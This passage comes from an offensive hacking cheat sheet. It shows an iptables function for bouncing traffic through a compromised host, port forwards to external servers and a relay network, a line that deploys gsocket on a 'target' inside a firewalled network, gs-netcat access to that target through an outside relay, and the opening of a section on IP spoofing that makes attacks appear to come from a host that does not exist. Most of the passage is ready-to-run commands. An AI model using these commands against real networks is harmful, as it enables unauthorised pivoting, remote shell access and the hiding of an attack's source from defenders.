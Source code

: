 More: [https://github.com/twelvesec/port-forwarding](https://github.com/twelvesec/port-forwarding) and [Tunnel via Cloudflare to any TCP Service](https://iq.thc.org/tunnel-via-cloudflare-to-any-tcp-service) and [Awesome Tunneling](https://github.com/anderspitman/awesome-tunneling).

---
<a id="iptables"></a>
**3.iii.c Bouncing traffic with iptables**

Bounce through a host/router without needing to run a userland proxy or forwarder:
```sh
ipfwinit() {
    echo 1 >/proc/sys/net/ipv4/ip_forward
    echo 1 >/proc/sys/net/ipv4/conf/all/route_localnet
    [ $# -le 0 ] && set -- "0.0.0.0/0"
    while [ $# -gt 0 ]; do
        iptables -t mangle -I PREROUTING -s "${1}" -p tcp -m addrtype --dst-type LOCAL -m conntrack ! --ctstate ESTABLISHED -j MARK --set-mark 1188 
        shift 1
    done
    iptables -t mangle -D PREROUTING -j CONNMARK --restore-mark >/dev/null 2>/dev/null
    iptables -t mangle -I PREROUTING -j CONNMARK --restore-mark
    iptables -I FORWARD -m mark --mark 1188 -j ACCEPT
    iptables -t nat -I POSTROUTING -m mark --mark 1188 -j MASQUERADE
    iptables -t nat -I POSTROUTING -m mark --mark 1188 -j CONNMARK --save-mark
}
ipfw() {
    iptables -t nat -A PREROUTING -p tcp --dport "${1:?}" -m mark --mark 1188 -j DNAT --to ${2:?}:${3:?}
}
ipfwinit                             # Allow EVERY IP to bounce
# ipfwinit "1.2.3.4/16" "6.6.0.0/16" # Only allow these SOURCE IP's to bounce
```

Then set forwards like so:
```sh
ipfw 31337 144.76.220.20 22 # Bounce 31337 to segfault's ssh port.
ipfw 31338 127.0.0.1 8080   # Bounce 31338 to the server's 8080 (localhost)
ipfw 53 213.171.212.212 443 # Bounce 53 to gsrn-relay on port 443
```

We use this trick to reach the gsocket-relay-network (or TOR) from deep inside firewalled networks.
```sh
# Deploy on a target that can only reach 192.168.0.100  
GS_HOST=192.168.0.100 GS_PORT=53 ./deploy.sh  
```
```sh
# Access the target  
GS_HOST=213.171.212.212 gs-netcat -i -s ...
```

---
<a id="ghost"></a>
**3.vi.c Ghost IP / IP Spoofing**

Useful on a host inside the target network. This tool re-configured (without trace) the SHELL: Any program (nmap, cme, ...) started from this SHELL will use a fake IP. All your attacks will originate from a host that does not exist.
